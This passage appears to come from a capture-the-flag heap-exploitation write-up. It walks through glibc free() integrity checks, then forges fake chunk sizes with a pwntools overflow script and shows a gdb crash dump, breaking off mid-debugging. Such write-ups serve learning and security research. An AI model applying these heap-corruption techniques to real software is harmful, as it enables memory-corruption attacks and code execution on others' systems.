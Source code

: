 Running this script will make the program scream pretty hard: "free(): invalid next size (normal)", and abort. What's going on? Well, if we look again into `free()`'s source code
```c
    else if (!chunk_is_mmapped(p)) {

        nextchunk = chunk_at_offset(p, size);

        /* Lightweight tests: check whether the block is already the
           top block.  */
        if (__glibc_unlikely (p == av->top))
            malloc_printerr ("double free or corruption (top)");
        /* Or whether the next chunk is beyond the boundaries of the arena.  */
        if (__builtin_expect (contiguous (av)
                              && (char *) nextchunk
                              >= ((char *) av->top + chunksize(av->top)), 0))
            malloc_printerr ("double free or corruption (out)");
        /* Or whether the block is actually not marked used.  */
        if (__glibc_unlikely (!prev_inuse(nextchunk)))
            malloc_printerr ("double free or corruption (!prev)");

        nextsize = chunksize(nextchunk);
        if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
            || __builtin_expect (nextsize >= av->system_mem, 0))
            malloc_printerr ("free(): invalid next size (normal)");
```
we see that those checks really mean something and do exist for some reason (and that we'd probably do something 'bout 'em). The specific problem we are facing currently is that, by shrinking the chunk to be 0x100 sized, `free()` will look for the next chunk at the offset 0x100, but *our* true chunk's size is 0x110, so it will find whatever we placed at that position (surely 0x4141414141414141), and that clearly isn't a valid size for a chunk (too large).

### Have you ever faked it? (or faking chunks 101)
Fair enough. We place a valid size there and done, right? It's offset 0x100 till the next chunk, but this is from the headers, and we start writing 0x10 bytes beyond the header, so we would need to write at offset `0x100 - 0x10 = 0xf0`, but the field size is 8 bytes further, so 0xf8. Now, what is a valid size? Not too big, not too small. Let's make it the smallest possible, `MINSIZE`, which in 64-bit architectures is defined as 0x20. On the other hand, `free()` also checks that the chunk it is freeing is truly in use by making sure that the next chunk's size's `PREV_INUSE` bit is set, so we are going to place 0x21 as the fake chunk's size.<span id="1_"><a href="#1"><sup>1</sup></a>
```python
### Insert a chunk in unsorted ###
log.info("Allocating 0x20")
r.write(b"A" * (0x20 - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
# Write the minimum amount necessary to allocate this size, because we are going
# to use the NULs that are there or we're gonna end up with a size too great.
r.write(b"A" * (0x110 - 23) + b'\0'); sleep(deltat)
log.info("Allocating 0x20 (overflowing)")
r.write(b"A" * (0x20 - 9) + b'\n' + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
# This will place 0x21 in the fake next size
r.write(b"A" * 0xf8 + p8(0x21) + b'\0'); sleep(deltat)
```
Now the program just explodes, *segmentation fault*. Why? With gdb we can see where it breaks
```
$rax   : 0xa41414141414141  ("AAAAAAA\n"?)
$r12   : 0x0000555555604e30  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r13   : 0xf5bf1414141f0cdf
$r14   : 0xa41414141414241  ("ABAAAAA\n"?)

   0x7ffff7897cab <free+859>       mov    rax, QWORD PTR [r12-0x10]
   0x7ffff7897cb0 <free+864>       sub    r13, rax
   0x7ffff7897cb3 <free+867>       add    r14, rax
 → 0x7ffff7897cb6 <free+870>       mov    rsi, QWORD PTR [r13+0x8]
```